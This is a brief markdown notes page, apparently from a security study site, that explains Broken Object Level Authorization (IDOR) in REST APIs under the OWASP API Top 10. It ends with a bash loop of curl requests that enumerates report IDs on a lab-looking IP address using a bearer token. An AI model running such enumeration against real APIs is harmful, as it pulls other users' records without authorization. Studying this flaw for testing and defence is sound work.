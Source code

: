 ```yaml
---
layout: default
title: API attacks
permalink: /Web/API/
---
```


# OWASP API Top 10 Security Risks using a RESTful web API

## Broken Object Level Authorization (BOLA)
Web APIs allow users to request data or records by sending various parameters, including unique identifiers such as Universally Unique Identifiers (UUIDs), also known as Globally Unique Identifiers (GUIDs), and integer IDs. Failing to properly verify that a user has permission to view a specific resource through object-level authorization mechanisms can lead to security vulnerabilities.
BOLA also known as an Insecure Direct Object Reference (IDOR) vulnerability.

Mass abuse BOLA from terminal:
```
for ((i=1; i<=20; i++)); do curl -X 'GET'   'http://94.237.59.225:40957/api/v1/supplier-companies/yearly-reports/'$i''   -H 'accept: application/json'   -H 'Authorization: Bearer eyJhbG<SNIP>' | jq; done
```
